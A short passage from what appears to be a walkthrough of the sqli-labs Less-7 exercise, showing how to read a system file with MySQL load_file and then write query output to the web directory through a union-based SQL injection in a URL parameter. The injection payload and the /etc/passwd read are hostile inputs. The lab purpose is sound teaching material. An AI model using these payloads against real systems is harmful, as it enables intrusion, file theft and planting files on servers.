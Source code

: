 Combine both of them and dump the combination into an outfile. The query is

`select load_file(“etc/passwd”) into outfile “tmp/test4.txt”;`

![101.png](./img/101.png)

Let us see the test4.txt file:

![102.png](./img/102.png)

Now come to the front end part and type in this query into the address bar:

`?id=2′)) union select 1,2,3 into outfile “/var/www/sqli-labs/Less-7/union2.txt” –+`

![103.png](./img/103.png)
